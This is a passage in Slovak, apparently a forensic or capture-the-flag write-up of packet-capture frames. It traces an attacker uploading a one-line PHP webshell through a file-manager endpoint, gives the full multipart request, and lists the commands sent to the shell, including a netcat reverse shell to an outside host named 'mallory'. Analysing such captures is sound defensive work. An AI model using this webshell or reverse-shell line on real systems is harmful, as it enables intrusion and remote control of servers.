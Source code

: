 Následne, ako autorizovaný používateľ využil predtým objavený endpoint `/filemanager.php` a odoslal POST request na `http://server-www/filemanager.php?p=uploads&upload` s obsahom

```
--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="upload[]"; filename="ws.php"

<?php if($_POST['c']){system($_POST['c']);} ?>

--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="p"

uploads
--5c71eedfb004e4a84d2b08c29b9a75ce
Content-Disposition: form-data; name="upl"

1
--5c71eedfb004e4a84d2b08c29b9a75ce--
```

čiže uploadol súbor `ws.php` s obsahom 

```php
<?php if($_POST['c']){system($_POST['c']);} ?>
```

čo je vlastne php webshell.

Keďže útočník videl toto

![](upload.png)

bolo mu jasné, že súbor nájde na endpointe `/uploads/ws.php` a od frame 11756 začína posielať POST requesty s linux príkazmi.

| Frame  | Type     | Content                               |
| ------ | -------- | ------------------------------------- |
| 111756 | Request  | c=whoami                              |
|        | Command  | whoami                                |
| 111758 | Response | www-data                              |
|        |          |                                       |
| 111765 | Request  | c=nc+-e+%2Fbin%2Fsh+mallory+42121+%26 |
|        | Command  | nc -e /bin/sh mallory 42121 &         |
| 111772 | Response |                                       |
